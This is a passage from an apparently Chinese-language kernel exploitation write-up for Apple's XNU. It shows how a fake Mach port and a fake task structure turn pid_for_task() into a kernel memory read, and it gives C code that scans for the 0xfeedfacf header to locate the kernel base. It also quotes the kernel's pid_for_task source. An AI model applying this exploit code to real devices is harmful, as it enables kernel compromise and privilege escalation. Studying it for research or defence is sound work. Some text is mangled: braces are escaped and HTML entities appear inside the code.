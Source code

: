 溢出的数据指向当前用户区域中创建的端口，该端口最初指向 ipc_object 的区域。 因此，你可以在内核文本地址中设置该结构的 task，然后调用 clock_sleep_strap()，如果成功，则指向时钟列表。

我们通过上述过程获得了时钟列表在内核中的地址，然后可以通过与内核头（0xfeedfacf）进行比较来获取内核地址。

使用的代码是：



```
uint64_t get_kernel_addr(uint64_t fake_port, void* fake_task, uint64_t clock_list_addr, mach_port_t* manipulated_port)`{`
    *(uint64_t*) (fake_port + TASK_GAP_IN_IPC_OBJ) = fake_task;
    *(uint64_t*) (fake_port + 0xa0) = 0xff; 
    *(uint64_t*) (fake_task + 0x10) = 0x01;  
    clock_list_addr &amp;= ~(0x3FFF);
    for(uint64_t current_addr = clock_list_addr; current_addr &gt; 0xffffff8000200000; current_addr-=0x4000) `{`
        int32_t kernel_data = 0;
        *(uint64_t*) (fake_task + TASK_INFO_GAP) = current_addr - 0x10;
        pid_for_task(manipulated_port, &amp;kernel_data);
        if (kernel_data == 0xfeedfacf) `{`
            printf("[+] Found kernel_text addr : %llxn", current_addr);
            return current_addr;
        `}`
    `}`
`}`
```

由于内核地址在 0x40000 处对齐，所以需要删除时钟列表的低 14 位，然后再减去对齐的大小并进行比较。此时，我们使用 pid_for_task() 在用户级读取内核的内存。通常，因为你无法再用户模式下读取内核内存，所以一个技巧是，通过使用你拥有的端口来调用 pid_for_task() 来读取内核内存。

pid_for_task() 函数通过从原始 Mach 任务中获取 BSD 进程的 ID 作为参数，定义如下。[bsd/vm/vm_unix.c]



```
kern_return_t
pid_for_task(
    struct pid_for_task_args *args)
`{`
    mach_port_name_t    t = args-&gt;t;
    user_addr_t        pid_addr  = args-&gt;pid;  
    proc_t p;
    task_t        t1;
    int    pid = -1;
    kern_return_t    err = KERN_SUCCESS;
    AUDIT_MACH_SYSCALL_ENTER(AUE_PIDFORTASK);
    AUDIT_ARG(mach_port1, t);
    t1 = port_name_to_task(t);
    if (t1 == TASK_NULL) `{`
        err = KERN_FAILURE;
        goto pftout;
    `}` else `{`
        p = get_bsdtask_info(t1);
        if (p) `{`
            pid  = proc_pid(p);
            err = KERN_SUCCESS;
        `}` else if (is_corpsetask(t1)) `{`
            pid = task_pid(t1);
            err = KERN_SUCCESS;
        `}`else `{`
            err = KERN_FAILURE;
        `}`
    `}`
    task_deallocate(t1);
pftout:
    AUDIT_ARG(pid, pid);
    (void) copyout((char *) &amp;pid, pid_addr, sizeof(int));
```